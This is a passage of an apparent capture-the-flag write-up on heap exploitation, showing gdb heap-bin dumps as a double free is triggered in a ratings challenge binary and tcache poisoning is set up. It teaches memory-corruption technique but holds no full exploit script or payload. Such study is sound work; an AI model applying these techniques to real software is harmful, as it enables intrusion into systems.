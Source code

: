 ```console
 -> Chunk(addr=0x555555575590, size=0x30, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=3, size=0x50, @0x5555555630a8] count=2
 -> Chunk(addr=0x5555555752d0, size=0x50, flags=PREV_INUSE, fd=0x555000020645, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575320, size=0x50, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=7, size=0x90, @0x5555555630c8] count=1
 -> Chunk(addr=0x5555555755e0, size=0x90, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=15, size=0x110, @0x555555563108] count=1
 -> Chunk(addr=0x5555555756b0, size=0x110, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
[+] Found 13 chunks in tcache.
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
fastbins[idx=0, size=0x20, @0x7ffff7c17ad0]
 -> Chunk(addr=0x555555575510, size=0x20, flags=PREV_INUSE, fd=0x555000020185, bk=0x00000000000a)
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x000555555575, bk=0x00000000000a)
[+] Found 2 chunks in fastbin.

```

Next, we trigger the double free by deleting rating 1.

```console
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
fastbins[idx=0, size=0x20, @0x7ffff7c17ad0]
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x555000020065, bk=0x00000000000a)
 -> Chunk(addr=0x555555575510, size=0x20, flags=PREV_INUSE, fd=0x555000020185, bk=0x00000000000a)
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x555000020065, bk=0x00000000000a)
 -> 0x555555575500 [loop detected]
[+] Found 2 chunks in fastbin.
```

### Tcache Poisoning

Now, when we request a `0x20` size chunk, it would first go through `tcachebins`
until it's empty. When we empty out the `tcachebins`, the next allocation request
would go to `fastbin` and the rest of the bins would be dumped into `tcachebins`.
But how do we empty out the `tcachebins`? Using `scream` is not ideal as
the chunks would get freed again. The answer is to simply create a rating.
This is because the allocation is done before the rating count validation check.

Before allocation request

```console
----------------------------------- Tcachebins for arena 'main_arena' -----------------------------------
tcachebins[idx=1, size=0x30, @0x555555563098] count=2
 -> Chunk(addr=0x5555555752a0, size=0x30, flags=PREV_INUSE, fd=0x5550000200d5, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575590, size=0x30, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=3, size=0x50, @0x5555555630a8] count=2
 -> Chunk(addr=0x5555555752d0, size=0x50, flags=PREV_INUSE, fd=0x555000020645, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x555555575320, size=0x50, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=7, size=0x90, @0x5555555630c8] count=1
 -> Chunk(addr=0x5555555755e0, size=0x90, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
tcachebins[idx=15, size=0x110, @0x555555563108] count=1
 -> Chunk(addr=0x5555555756b0, size=0x110, flags=PREV_INUSE, fd=0x000555555575, bk=0x6ee603c65e3f27c0)
```